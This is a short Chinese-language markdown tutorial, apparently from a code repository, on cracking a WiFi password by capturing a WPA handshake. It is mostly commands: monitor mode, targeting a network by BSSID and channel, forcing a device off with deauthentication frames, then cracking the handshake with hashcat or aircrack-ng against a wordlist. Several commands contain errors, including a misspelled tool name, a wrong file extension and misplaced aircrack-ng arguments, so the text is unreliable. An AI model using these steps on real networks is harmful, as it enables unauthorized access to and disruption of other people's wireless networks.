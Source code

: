 # 通过握手包获取 WIFI 密码

1. 查看網絡設備, 獲取無線網卡名稱.
```bash
iwconfig
```

2. 開啓無線網卡監聽模式.
```bash
sudo airmon-ng start wlan0
```
開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

3. 監聽 Wifi 信號.
```bash
sudo airodunp-ng wlan0mon
```
當發現目標 Wifi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 Wifi 通信內容.
```bash
sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
```

5. 斷開指定設備與指定 Wifi 的鏈接.
```bash
sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
```
目標設備從指定 Wifi 斷開鏈接後將嘗試衝連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.
此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

7. 對`.cap`文件中握手包的hash進行破解.
  - 使用 Hashcat. (推薦)
    ```bash
    aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
    hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
    ```
  - 使用 aircrack-ng.
    ```bash
    aircrack-ng -w [.cap存檔文件] [字典文件]
    ```

